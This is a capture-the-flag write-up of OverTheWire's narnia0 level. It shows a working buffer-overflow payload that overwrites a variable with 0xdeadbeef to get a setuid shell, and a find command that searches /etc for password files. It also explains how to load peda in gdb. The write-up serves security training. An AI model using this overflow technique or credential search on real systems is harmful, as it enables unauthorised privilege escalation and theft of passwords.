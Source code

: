 # narnia0
We tried not to read the code at first, like a regular CTF would normally be, although checking it out is expected. Lets begin by noticing what is it all about.

~~~~
narnia0@melinda:/narnia$ ./narnia0 
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: cats barking in a can
buf: cats
val: 0x41414141
WAY OFF!!!!
~~~~

Since this is the first chall, it is expected to be very simple. The basics then:

~~~~
narnia0@melinda:/narnia$ file ./narnia0
./narnia0: setuid ELF 32-bit LSB  executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=177ebbd012e00de35da6c62d828ef9ff2201555d, not stripped

strings narnia0
/lib/ld-linux.so.2
libc.so.6
_IO_stdin_used
exit
__isoc99_scanf
puts
printf
system
__libc_start_main
__gmon_start__
GLIBC_2.7
GLIBC_2.0
PTRh
D$,AAAA
[^_]
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: 
%24s
buf: %s
val: 0x%08x
/bin/sh
WAY OFF!!!!
;*2$"
GCC: (Ubuntu 4.8.2-19ubuntu1) 4.8.2
.symtab
.strtab
.shstrtab
.interp
.note.ABI-tag
.note.gnu.build-id
.gnu.hash
.dynsym
.dynstr
.gnu.version
.gnu.version_r
.rel.dyn
.rel.plt
.init
.text
.fini
.rodata
.eh_frame_hdr
.eh_frame
.init_array
.fini_array
.jcr
.dynamic
.got
.got.plt
.data
.bss
.comment
crtstuff.c
__JCR_LIST__
deregister_tm_clones
register_tm_clones
__do_global_dtors_aux
completed.6590
__do_global_dtors_aux_fini_array_entry
frame_dummy
__frame_dummy_init_array_entry
narnia0.c
__FRAME_END__
__JCR_END__
__init_array_end
_DYNAMIC
__init_array_start
_GLOBAL_OFFSET_TABLE_
__libc_csu_fini
_ITM_deregisterTMCloneTable
__x86.get_pc_thunk.bx
data_start
printf@@GLIBC_2.0
_edata
_fini
__data_start
puts@@GLIBC_2.0
system@@GLIBC_2.0
__gmon_start__
exit@@GLIBC_2.0
__dso_handle
_IO_stdin_used
__libc_start_main@@GLIBC_2.0
__libc_csu_init
_end
_start
_fp_hw
__bss_start
main
_Jv_RegisterClasses
__isoc99_scanf@@GLIBC_2.7
__TMC_END__
_ITM_registerTMCloneTable
_init
~~~~

It does not brings us a lot of information, except it is a very simple program. Also, we have a buffer, a hardcoded value and a highly suspected *scanf*. For all that matters, everything indicates a potential buffer overflow ccoming up. Even before disassembling the program, lets do a little more fuzzing:

~~~~
narnia0@melinda:/narnia$ echo AAAAAAAAAAAAAAAAAAAAAA |  ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAAA
val: 0x41004141
WAY OFF!!!!
narnia0@melinda:/narnia$ echo AAAAAAAAAAAAAAAAAAAAAAAAAAAA |  ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAAAAA
val: 0x41414141
WAY OFF!!!!
narnia0@melinda:/narnia$ echo AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA |  ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAAAAA
val: 0x41414141
WAY OFF!!!!
~~~~

The buffer seems to have a fixed size o 20 bytes. Note that right after *Here is your chance:* in our strings result we see *24%s*. Maybe our scanf is reading 24 bytes? Then the other 4 bytes are overflowing o/
Now we can try to guess how this program works. There is a buffer array of 20 bytes which receives our input. The program reads 24 bytes from our input and copies it into the buffer. Finally, there must be a variable (*val*?) with initial value *0x41414141*. If right before the program ends this is equal to *0xdeadbeef*, shell for you. Otherwise, *WAY OFF!!!*.

Now lets try to prove ourselves right (or wrong). If our guess is right, we should be able to overwrite *val* by sending 20 bytes plus our desired new value.

~~~~
narnia0@melinda:/narnia$ (python -c 'print "A"*20 + "\xef\xbe\xad\xde"';cat -) | ./narnia0 
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ�
val: 0xdeadbeef
ls
narnia0    narnia1    narnia2    narnia3    narnia4    narnia5    narnia6    narnia7    narnia8
narnia0.c  narnia1.c  narnia2.c  narnia3.c  narnia4.c  narnia5.c  narnia6.c  narnia7.c  narnia8.c
~~~~

Bang! Note we had to use little endian notation (expect after our *file* command). Also, *cat -* is an old trick to keep the shell open and not immediately close. In order to concatenate shell commands, we used the parenthesis.
Last part is to find the path to our flag. We will search everywhere for files containing the string "pass" in its name. Also, we are ignoring all "Permission denied" errors by sending all error messages from stderr to stdout (2>&1) and grepping only those without (-v) "Permission denied".

~~~~
find / -name "*pass" 2>&1 | grep -v "Permission denied"
/proc/sys/net/ipv4/vs/cache_bypass
/etc/krypton_pass
/etc/semtex_pass
/etc/behemoth_pass
/etc/utumno_pass
/etc/vulnbot_pass
/etc/natas_pass
/etc/natas_webpass
/etc/maze_pass
/etc/vortex_pass
/etc/narnia_pass
/etc/manpage_pass
/etc/leviathan_pass
/etc/drifter_pass
/etc/bandit_pass
/home/bandit21/.prevpass
/usr/share/bash-completion/completions/mmsitepass
~~~~

Cool, passwords for all OverTheWire's games :). Inside /etc/narnia_pass we have our golden pot.

# About peda
Ok a quick observation here about our tools. When we first sshed to the game we received a message telling us what are our weapons.

~~~~
--[ Tools ]--

 For your convenience we have installed a few usefull tools which you can find
 in the following locations:

    * peda (https://github.com/longld/peda.git) in /usr/local/peda/
    * gdbinit (https://github.com/gdbinit/Gdbinit) in /usr/local/gdbinit/
    * pwntools (https://github.com/Gallopsled/pwntools) in /usr/src/pwntools/
    * radare2 (http://www.radare.org/) should be in $PATH
~~~~

Now, I must confess it took me some time to figure out how to run peda. Since it is not in $PATH as radare2, we need to run it with its full path. Also, peda is not configured in gdbinit, so we must call it inside gdb with *source* command.

~~~~
narnia0@melinda:/narnia$ gdb /.narnia0
GNU gdb (Ubuntu 7.7.1-0ubuntu5~14.04.2) 7.7.1
Copyright (C) 2014 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
/.narnia0: No such file or directory.
(gdb) source /usr/local/peda/peda.py
gdb-peda$
~~~~
